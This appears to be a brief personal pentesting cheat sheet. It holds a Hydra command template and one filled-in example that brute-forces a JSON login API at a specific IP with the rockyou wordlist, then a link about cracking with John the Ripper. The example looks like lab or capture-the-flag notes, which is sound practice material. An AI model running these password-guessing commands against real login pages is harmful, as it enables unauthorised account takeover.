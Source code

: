# Hydra

`hydra -l <USER> -p <PASSWORD> <IP_ADDRESS> http-post-form "<LOGIN_PAGE>:<REQUEST_BODY>:<ERROR_MESSAGE>"`

## JSON Payload

`hydra -l "root@dasith.works" -P "/usr/share/wordlists/rockyou.txt" -s 3000 10.129.244.81 http-post-form "/api/user/login:{\"email\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:S=Password is wrong:H=content-type: application/json"`

# Cracking

## John

https://vk9-sec.com/cracking-password-john-the-ripper/